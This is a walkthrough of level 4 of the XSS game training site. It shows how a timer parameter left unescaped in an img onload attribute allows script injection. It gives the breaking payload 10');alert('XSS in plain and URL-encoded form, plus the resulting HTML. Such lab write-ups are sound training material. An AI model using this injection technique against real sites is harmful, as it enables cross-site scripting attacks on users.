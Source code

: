 # Level 4: Context matters

URL: [https://xss-game.appspot.com/level4](https://xss-game.appspot.com/level4)

![Xss Game Appspot Level 4 Image](img/level-4.png)

## Mission Description

Every bit of user-supplied data must be correctly escaped for the context of the page in which it will appear.

## Analysis

The page has a create timer button that executes a get form action which is then passed to the page via the timer parameter.

![Xss Game Appspot Level 4 Frame Url](img/timer-param.png)

Upon further inspection of the page `timer.html` line `21`, it was found that the value of the timer in the URL is passed to the `startTimer()` function by the onload attribute of an **`img`** tag.

![Xss Game Appspot Level 4 StarTimer Function](img/start-timer-function.png)

```html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

We can craft a javascript payload that, will get executed on the `onload` attribute pop the alert box.

```javascript
10');alert('XSS
10%27%29%3Balert%28%27XSS
```

### How does the payload work?

When we put `10')` it will close the `startTimer()` function and add an `alert()` as a separate code block.

### Our injected payload

```html
<img src="/static/loading.gif" onload="startTimer('10');alert('XSS');">
```

![Xss Game Appspot Level 4 Solved](img/level-4-solved.png)
